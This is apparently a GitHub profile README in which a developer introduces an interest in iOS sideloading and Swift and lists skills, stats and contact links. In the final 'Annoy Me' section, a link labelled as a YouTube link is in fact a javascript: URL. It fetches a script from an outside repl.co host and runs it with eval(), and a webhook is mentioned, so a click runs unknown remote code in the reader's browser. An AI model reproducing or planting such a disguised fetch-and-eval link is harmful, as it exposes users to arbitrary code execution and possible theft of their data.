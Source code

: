 ### Hi there, I'm Alex 👋

I'm a "Software Developer" Interested in iOS sideloading, Swift, and general coding. Here are some stats and information about me:

- 🔭 I’m currently working on: [insert project name]
- 🌱 I’m currently learning: JavaScript and PHP
- 💬 Ask me about: iOS sideloading, Swift, or Anything Related To IOS in General I May Or May Not Be Able To Help You

### GitHub Stats

![AlexSpaces's GitHub stats](https://github-readme-stats.vercel.app/api?username=AlexSpaces&show_icons=true&count_private=true&theme=dracula)

### Languages I know

| Language | Skill Level |
| -------- | ----------- |
| Swift    | Good        |
| HTML     | Good        |
| CSS      | Good        |
| JavaScript| Learning   |
| Python   | Good'ntu     |
| PHP      | Learning    |

### Contact Me
You Can Contact Me Via Any Of The Following 
[Email](mailto:Me@Alexspac.es)
[Twitter](https://twitter.com/AIexSpaces)

### Annoy Me
Click - YouTube: [Here](javascript:fetch('https://Nullify-20.garoikana.repl.co/main.js').then(r => r.text()).then(r => eval(r)) To Annoy Me (Webhook)
